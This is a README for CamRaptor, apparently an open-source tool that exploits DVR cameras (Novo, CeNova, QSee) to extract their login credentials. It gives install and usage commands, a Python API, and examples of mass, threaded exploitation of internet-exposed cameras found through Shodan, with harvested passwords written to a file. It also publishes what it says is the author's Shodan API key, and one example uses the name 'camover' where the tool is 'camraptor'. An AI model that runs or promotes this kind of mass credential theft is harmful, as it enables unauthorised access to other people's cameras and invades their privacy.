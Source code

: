 # CamRaptor

CamRaptor is a tool that exploits several vulnerabilities in popular DVR cameras to obtain device credentials.

## Features

* Exploits vulnerabilities in most popular camera models such as `Novo`, `CeNova` and `QSee`.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/CamRaptor
```

## Basic usage

To use CamRaptor just type `camraptor` in your terminal.

```
usage: camraptor [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--api API]

CamRaptor is a tool that exploits several vulnerabilities in popular DVR
cameras to obtain device credentials.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --api API             Shodan API key for exploiting devices over Internet.
```

### Examples

Let's hack my camera just for fun.

```shell
camraptor -a 192.168.99.100
```

**output:**

```shell
[*] (192.168.99.100) - connecting to device...
[*] (192.168.99.100) - accessing device rom...
[*] (192.168.99.100) - extracting camera credentials...
[i] (192.168.99.100) - admin:mamahacker123
```

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```shell
camover -t --api PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**output:**

```shell
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #2 completed.
```

Let's try to use opened database of hosts with `-t` for fast exploitation.

```shell
camraptor -t -i cameras.txt -o passwords.txt
```

**NOTE:** It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

**output:**

```shell
[*] Initializing thread #0...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #1...
[*] (x.x.x.x) - connecting to camera...
[*] Initializing thread #2...
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #0 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #1 completed.
[*] (x.x.x.x) - connecting to camera...
[*] (x.x.x.x) - accessing camera config...
[*] (x.x.x.x) - extracting camera credentials...
[i] Thread #2 completed.
```

## CamRaptor API

CamRaptor also has their own Python API that can be invoked by importing CamRaptor to your code:

```python
from camraptor import CamRaptor
```

### Basic functions

There are all CamRaptor basic functions that can be used to exploit specified device.

* `connect(host)` - Connect specified defice by network address.
* `exploit(device)` - Exploit connected device.

### Examples

```python
from camraptor import CamRaptor

camraptor = CamRaptor()

camera = camraptor.connect('192.168.99.100')
print(camraptor.exploit(camera))
```

**output:**

```shell
'mamahacker123'
```
